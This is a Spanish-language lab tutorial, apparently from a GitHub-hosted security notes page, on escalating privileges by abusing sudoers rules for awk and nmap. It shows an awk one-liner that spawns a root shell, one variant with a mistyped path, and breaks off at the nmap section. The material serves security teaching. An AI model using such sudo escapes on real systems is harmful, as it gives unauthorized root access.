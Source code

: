 ### Asignación de permisos sudo sobre un comando:

De primeras los usuarios no tienen permisos de sudo pero para este lab se les asignará permisos sudo sobre diferentes comandos para ver cómo se podría aprovechar de esto para escalar privilegios.

![Untitled](/assets/Privesc/Abusing-Sudoers-Permissions/Untitled.png)

Para esto, se modificará el archivo “/etc/sudoers/” el cual permitirá asignar reglas de sudoers. En este caso se asignará permisos de sudo al usuario pepe sobre el comando awk, y a la usuaria sara permisos de sudo sobre el comando nmap.

```bash
nano /etc/sudoers
```

![Untitled](/assets/Privesc/Abusing-Sudoers-Permissions/Untitled 1.png)

Para ejecutar estos comandos como sudo, el usuario puede usar alguno de estos comando:

```bash
sudo -u root <comando>
sudo <comando>
```

Nota: Para encontrar formas de explotar estos binarios, se atenderá a la web: [https://gtfobins.github.io/gtfobins](https://gtfobins.github.io/gtfobins)

## Explotación de permisos sudo sobre awk

El usuario pepe tiene permisos para ejecutar el comando awk como usuario root:

![Untitled](/assets/Privesc/Abusing-Sudoers-Permissions/Untitled 2.png)

Obtener una shell:

```bash
{% raw %}
sudo awk 'BEGIN {system("/bin/bash")}'

----

sudo -u root awk 'BEGIN {system("/Bin/bash")}'
{% endraw %}
```

## Explotación de permisos sudo sobre nmap

La usuaria sara tiene permisos de ejecutar nmap como el usuario root:
